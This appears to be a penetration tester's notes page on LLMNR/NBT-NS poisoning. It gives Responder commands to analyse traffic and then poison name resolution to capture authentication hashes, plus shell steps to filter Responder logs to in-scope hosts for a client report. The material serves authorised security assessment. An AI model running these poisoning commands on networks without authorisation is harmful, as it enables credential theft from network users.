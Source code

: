 # LLMNR/NBT-NS Poisoning

Responder is the go-to tool for poisoning LLMNR, NBT-NS, and mDNS requests. NBT-NS, LLMNR and mDNS can broadcast queries to the entire network, but no measures are taken to verify the responses. As an attacker, we can exploit this by listening to the queries, spoofing the response, and then obtaining to the account being used to authenticate.&#x20;

{% embed url="https://github.com/lgandx/Responder" %}

### Usage

I always recommend running Responder in Analyze mode to begin your assessment. This will help identify DNS replacement protocols such as LLMNR and NBT-NS. Additionally, we can still capture hashes in Analyze mode, an example of this would be when a client has a 'network spider' for patch management.&#x20;

Run Responder in Analyze mode first to observe traffic on the network:

```bash
responder -I eth0 -A
```

After identifying the protocols, we can rerun Responder with the parameters to poison:

```bash
responder -I eth0 -dwP
```

### Output In-scope Hosts from Responder

Recently on a penetration test I had a request from a client to be provided with only "In-Scope" hosts that were in the Responder-logs. This is because they wanted an actionable list of hosts to remediate for compliance rather than "your entire domain is rekt".&#x20;

If this is ever an ask, I found out a pretty easy way to grep out hosts from IPs within scope and provide this ask to a client:

Place the in-scope hosts into a file. For this example, it will be titled `InScopeHosts.txt`

```bash
> cat in-scope.out

127.0.0.1
127.0.0.2
127.0.0.3
```

If the client has provided a list in CIDR notation then break these into smaller lists via your choice of tool. Personally, I like using nmap:

```bash
nmap -sL -n 127.0.0.0/24 | awk '/Nmap scan report/{print $NF}’
```

Grep out the `Poisoners-Session log` to only IP Addresses:

```bash
cat Poisoners-Session.log | grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}’ > responder-ips.txt
```

Sort both files and place them into the appropriate directory.&#x20;

```bash
sort -u $file
```

Compare the two files using `comm`:

```bash
comm -12 sorted-poisoners-session sorted-responder-ips
```

### References

{% embed url="https://www.cynet.com/attack-techniques-hands-on/llmnr-nbt-ns-poisoning-and-credential-access-using-responder" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022" %}
